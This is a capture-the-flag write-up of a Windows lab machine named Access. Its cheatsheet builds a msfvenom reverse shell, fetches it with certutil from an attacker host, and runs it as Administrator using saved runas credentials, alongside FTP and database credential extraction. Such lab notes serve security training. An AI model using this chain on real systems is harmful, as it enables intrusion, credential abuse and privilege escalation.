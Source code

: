 # Access \[Windows Easy]

## Report

An FTP server has two files, a database and a zip file. The password to the zip file is available in the database which has many tables.

Telnet session for the user shows a `.lnk` file in the Desktop folder where `runas` is executed with saved creds which is confirmed by `cmdkey`. Transfer a reverse shell and execute it as Administrator using its saved creds.

## Cheatsheet

```
#FTP
ftp 10.10.10.98
passive (Mitigate entering passive mode)
dir
dir
binary (Set to binary mode for proper channel to download bin files)
get backup.mdb
get "Access Control.zip"
7z x Access Control.zip
mdb-tables backup.mdb
mdb-tables backup.mdb | tr ' ' '\n' | grep .
mdb-tables backup.mdb | tr ' ' '\n' | grep . | while read table; do lines=$(mdb-export backup.mdb $table | wc -l); if [ $lines -gt 1 ]; then echo "$table: $lines"; fi; done
mdb-export backup.mdb auth_user
readpst Access\ Control.pst
less Access\ Control.mbox

telnet
C:\Users\Public\Desktop>type "ZKAccess3.5 Security System.lnk"
C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred 
cmdkey /list

msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1234 -f exe > nikos.exe
certutil -urlcache -f http://10.10.14.4/nikos.exe nikos.exe
runas /savecred /user:ACCESS\Administrator "C:\ProgramData\nikos.exe"

```

## Loot

### Creds

'Access Control.mbox' - Office mail containing creds

### Proof
